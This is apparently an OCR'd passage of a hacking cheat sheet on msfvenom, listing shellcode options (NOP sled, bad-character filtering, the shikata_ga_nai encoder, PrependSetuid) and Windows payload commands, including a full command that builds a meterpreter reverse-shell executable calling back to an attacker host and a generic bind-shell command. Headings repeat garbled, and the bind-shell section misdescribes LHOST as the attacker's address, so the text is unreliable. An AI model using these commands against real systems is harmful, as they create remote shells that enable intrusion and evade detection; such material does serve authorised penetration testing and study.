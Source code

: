 The `-n` parameter specifies the size of the NOP sled to be used in the shellcode.

### -v, --var-name
#### -v, --var-name
#### -v, --var-name

The `-v` parameter specifies the variable name to be used for the shellcode.

### -x, --template
#### -x, --template
#### -x, --template

The `-x` parameter specifies the template file to be used for the shellcode.
```bash
-b "\x00\x0a\x0d"
-f c
-e x86/shikata_ga_nai -i 5
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
## **Windows**

### **Reverse Shell**

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
### Bind Shell

{% code overflow="wrap" %}### Bind Shell

Bind Shell is a technique used in hacking to create a shell on a target system that listens for incoming connections. This allows the attacker to gain remote access to the target system and execute commands.

To create a bind shell using msfvenom, you can use the following command:

```plaintext
msfvenom -p <payload> LHOST=<attacker IP> LPORT=<attacker port> -f <format> -o <output file>
```

- `<payload>`: The payload to use for the bind shell. This can be any payload supported by msfvenom.
- `<attacker IP>`: The IP address of the attacker machine.
- `<attacker port>`: The port on the attacker machine to listen for incoming connections.
- `<format>`: The format of the output file. This can be any format supported by msfvenom, such as exe, elf, or raw.
- `<output file>`: The name of the output file to save the generated shell.

Once the bind shell is created, you can transfer it to the target system and execute it. When the shell is executed, it will start listening for incoming connections on the specified IP address and port. The attacker can then connect to the shell and gain remote access to the target system.
